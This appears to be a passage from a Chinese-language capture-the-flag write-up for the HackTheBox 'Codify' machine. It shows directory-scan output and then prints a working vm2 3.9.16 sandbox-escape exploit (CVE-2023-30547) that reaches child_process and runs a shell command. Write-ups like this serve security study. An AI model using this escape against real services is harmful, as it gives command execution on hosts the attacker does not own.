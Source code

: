 ![image](https://hackmd.io/_uploads/rJ6hjFuNp.png)
> [15:29:00] 200 -    3KB - /About
[15:29:15] 200 -    3KB - /about
[15:30:23] 200 -    3KB - /editor
[15:30:23] 200 -    3KB - /editor/
[15:31:22] 403 -  275B  - /server-status/
[15:31:22] 403 -  275B  - /server-status


#### 1.5 Browse http://codify.htb/editor
Editor 使用vm2 v3.9.16 sandbox
● [Sandbox Escape in vm2](https://github.com/patriksimek/vm2/blob/master/CHANGELOG.md#v3916-2023-04-11)
● [vm2 Sandbox Escape vulnerability CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m)

![image](https://hackmd.io/_uploads/rk0HUqd46.png)

### 2. CVE-2023-30547
● [Sandbox Escape in vm2@3.9.16](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) 
● [handleException()](https://blog.csdn.net/scjrw/article/details/131798427): 使用handleException()方法處理異常。 handleException()方法先印出異常訊息，然後檢查是否還有更高層級的異常。如果有，我們使用handleException()方法繼續向上尋找引發該異常的異常，直到找到引發異常的來源。

```node.js=
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {}; //建立一個空的物件 err
//建立一個 Proxy 的 handler
const handler = {
    //getPrototypeOf 方法中包含一個無窮迴圈，並在每次迭代中呼叫 new Error().stack;。
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

//建立一個代理物件 proxiedErr，使用 handler的設定。
const proxiedErr = new Proxy(err, handler);
try {
    //拋出代理，觸發 err
    throw proxiedErr;
} 
//取得err 的 constructor
catch ({constructor: c}) {
    // Node.js 的 child_process 模組執行一個command
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
